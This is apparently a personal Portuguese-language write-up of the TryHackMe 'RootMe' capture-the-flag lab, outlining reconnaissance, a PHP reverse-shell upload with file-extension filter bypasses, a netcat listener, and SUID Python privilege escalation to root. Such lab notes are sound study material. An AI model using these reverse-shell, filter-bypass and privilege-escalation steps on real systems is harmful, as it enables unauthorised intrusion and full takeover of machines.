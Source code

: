 # TryHackme - Rootme

[RootMe Room](https://tryhackme.com/room/rrootme)

### hangzou

1. **Reconhecimento**

   I. **Nmap Scan**
      - Portas
      - Serviços/Protocolos

   II. **Gobuster**
       
       - /panel/
       - /uploads/

2. **Shell Reverso**

   I. **PHP**
      - /usr/share/laudanum/php/php-reverse-shell.php
      - [Pentest Monkey PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

   II. **Blacklist Bypass**
      - .php3
      - .php4
      - .php5
      - .phtml

   III. **Netcat**
      - Endereço IP da Rede THM
      - nc -lvnp 4444
 
      > Solucionado com ajuda de Writeup

3. **Escalação de Privilégio**

   I. **Exploração de Permissão SUID**
      - /usr/bin/python 

      > Solucionado com ajuda de Writeup 

   II. **Python**
      - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
 
   III. **Root**
      - `cd /root/`
      - `ls`
      - root.txt
      - `cat root.txt`

## Concluido!

Writeup Consultado:
 
[Infosec Writeup](https://infosecwriteups.com/tryhackme-rootme-ctf-walkthrough-detailed-a7c521df7339)

Observação:

Essa anotação é apenas um teste, que visa descrever meu passo a passo da resolução dos desafios do TryHackMe.
